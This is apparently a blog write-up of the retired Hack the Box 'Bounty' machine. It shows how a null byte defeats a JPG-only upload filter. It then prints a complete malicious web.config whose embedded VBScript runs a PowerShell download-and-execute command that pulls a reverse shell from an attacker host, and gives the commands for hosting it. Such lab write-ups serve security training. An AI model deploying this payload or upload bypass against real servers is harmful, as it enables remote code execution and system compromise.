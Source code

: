 ```yaml
---
layout: post
title:  "Using web.config to Bypass File Upload Restrictions"
author: nanobyte
date:   2021-08-13
description: How to leverage web.config for bypassing a file upload restriction
tags: PowerShell HTB_Walkthrough BypassUploadRestriction
---
```


<h3>Bypassing Upload Restrictions</h3>

The following attack was identified during Hack the Box's retirned Bounty machine. In that vulnerable machine, there was access to a file upload. The application only took JPG extensions. This could be defeated by adding a null byte at the end of the file extension. To add this null byte, we wil type in %00, then the required JPG extension.

First use Burp Suite and enable intercept. Once ready, upload a file, in this scenario transfer.aspx is being uploaded:

<center><img src="/images/posts/webconfig-writeup/image_1.png" alt="upload-file"></center>

Once intercepted, we can add our null byte after our ASPX extension, and before our JPG extension:

<center><img src="/images/posts/webconfig-writeup/image_2.png" alt="burp-suite-intercept"></center>

If we were to send this to the server, we will see a successful file upload:

<center><img src="/images/posts/webconfig-writeup/image-3.png" alt="file-upload-success"></center>

However, if we navigate to this file, we would receive the following error:

<center><img src="/images/posts/webconfig-writeup/image-4.png" alt="file-load-error"></center>

With the presence of the web.config file, and the ability to bypass file upload restrictions discovered, we can create a malicious web.config, and upload a version that can maliciously download a reverse shell, which we can use to connect back to our machine. Please see the below web.config template:

<h3>Malicious web.config</h3>

We can create our own malicious web.config file, which contains a PowerShell command to download a reverse shell hosted on a web server:

{% highlight bash linenos %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')")
%>
{% endhighlight %}

Before you upload this file to the server, make sure that you have a PowerShell reverse shell hosted from your local machine. Here are some great PowerShell options available from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" target="_blank">PayloadAllTheThings</a>.

Once a PowerShell reverse shell is saved on your local machine, you must setup a web server to host this file. I generally usen a Python SimpleHTTPServer. This can be quickly setup with the following command, from the directory your reverse shell is saved in:

{% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Once the above is setup, you can then upload the malicious web.config file. You must perform the same bypass restriction, adding the required null byte and JPG extension. Once on the server, open a NetCat listener, and open the web.config file on the web server from your browser. Once completed, a reverse connection was received:

<center><img src="/images/posts/webconfig-writeup/image-5.png" alt="burp-suite-intercept"></center>
